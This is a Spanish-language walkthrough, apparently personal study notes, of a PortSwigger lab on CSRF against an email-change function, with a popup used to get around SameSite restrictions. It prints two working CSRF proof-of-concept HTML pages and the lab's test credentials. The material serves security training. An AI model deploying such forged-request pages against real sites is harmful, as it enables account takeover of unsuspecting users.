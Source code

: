 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Para solucionar este problema, realice un ataque CSRF que cambie la dirección de correo electrónico de la víctima. Debe usar el servidor de exploits proporcionado para alojar el ataque.

El laboratorio admite el inicio de sesión con OAuth. Puede iniciar sesión a través de su cuenta de redes sociales con las siguientes credenciales: `wiener:peter`

`NOTA:` - Los navegadores impiden que se abran las ventanas emergentes a menos que se activen mediante una interacción manual del usuario, como un clic. El usuario víctima hará clic en cualquier página a la que lo redirija, por lo que puede crear ventanas emergentes mediante un controlador de eventos global como se indica a continuación

```python
<script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
```

iniciamos sesión en la web y de inmediato nos damos cuenta que nos esta haciendo una redirección hacia endpoints diferentes tenemos un botón de continuar que probablemente necesite una cookie. en este caso la de sesión
![[Pasted image 20250722103219.png]]

luego tenemos otro botón de continuar que probablemente contenga otra cookie. aquí lo esencial seria analizar ambas solicitudes e identificar si la cookie es diferente
![[Pasted image 20250722103359.png]]

realizamos una solicitud de cambio de correo y la interceptamos para enviarla al repeater 
![[Pasted image 20250722103605.png]]

cuando estamos en el repeater iniciamos un CSRF-POC
![[Pasted image 20250722103807.png]]

en este caso el history.pushState no lo necesitamos ya que esta vulnerabilidad por lógica del laboratorio se modifica para que sea una solicitud mas automatizada donde la victima debe hacer clic. pero en este caso debemos generar una ventana emergente con el código que nos proporcionaron. nos quedaría algo como esto:

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a49006d035448148083fd090057002b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
  </body>
</html>
```

`NOTA:` recuerda cambiar el correo ya que no puede ser el mismo correo del ataque al que ya esta registrado en la cuenta.

###### OPCIÓN 2
puedes usar este código que que esta proporcionado por el laboratorio si no cuentas con burpsuite profecional.

```python
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="pwned@portswigger.net"> 
</form> 
<p>Click anywhere on the page</p> 
<script> 
	window.onclick = () => { 
		window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); 
		setTimeout(changeEmail, 5000); 
	} 
	function changeEmail() { 
		document.forms[0].submit(); 
	} 
</script>
```
